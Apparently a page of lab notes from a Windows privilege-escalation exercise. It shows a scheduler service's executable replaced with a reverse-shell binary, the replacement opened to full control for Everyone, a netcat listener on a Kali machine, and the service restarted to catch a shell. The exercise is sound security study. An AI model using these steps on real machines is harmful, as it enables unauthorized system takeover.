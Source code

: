 ```
09/01/2022  02:40 PM             1,343 LogfileAdvanced.txt
03/25/2018  10:58 AM           536,992 Message.exe
03/25/2018  10:59 AM           445,344 PlaySound.exe
03/25/2018  10:58 AM            27,040 PlayWAV.exe
05/03/2022  12:04 PM               108 Preferences.ini
03/25/2018  10:58 AM           485,792 Privilege.exe
03/24/2018  12:09 PM            10,100 ReadMe.txt
03/25/2018  10:58 AM           112,544 RunNow.exe
03/25/2018  10:59 AM            40,352 sc32.exe
08/31/2003  12:06 PM               766 schedule.ico
03/25/2018  10:58 AM         1,633,696 Scheduler.exe
03/25/2018  10:59 AM           491,936 SendKeysHelper.exe
03/25/2018  10:58 AM           437,664 ShowXY.exe
03/25/2018  10:58 AM           439,712 ShutdownGUI.exe
03/25/2018  10:58 AM           235,936 SSAdmin.exe
03/25/2018  10:58 AM           731,552 SSCmd.exe
01/08/2009  08:12 PM           355,446 ssleay32.dll
03/25/2018  10:58 AM           456,608 SSMail.exe
05/03/2022  11:56 AM             6,867 unins000.dat
05/03/2022  11:56 AM           722,597 unins000.exe
05/03/2022  11:56 AM                54 Website.url
06/26/2009  05:27 PM             6,574 whiteclock.ico
03/25/2018  10:58 AM            76,704 WhoAmI.exe
05/16/2006  04:49 PM           785,042 WSCHEDULER.CHM
05/16/2006  03:58 PM             2,026 WScheduler.cnt
03/25/2018  10:58 AM           331,168 WScheduler.exe
05/16/2006  04:58 PM           703,081 WSCHEDULER.HLP
03/25/2018  10:58 AM           136,096 WSCtrl.exe
03/25/2018  10:58 AM            98,720 WService.exe
03/25/2018  10:58 AM            68,512 WSLogon.exe
03/25/2018  10:59 AM            33,184 WSProc.dll
              38 File(s)     11,144,869 bytes
               3 Dir(s)  15,004,889,088 bytes free

C:\PROGRA~2\SYSTEM~1>move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1>move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1>icacls WService.exe /grant Everyone:F
processed file: WService.exe
Successfully processed 1 files; Failed processing 0 files

netcat kali machine

┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4445  

stop/start service
C:\PROGRA~2\SYSTEM~1>sc stop windowsscheduler

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x3e8

C:\PROGRA~2\SYSTEM~1>sc start windowsscheduler

```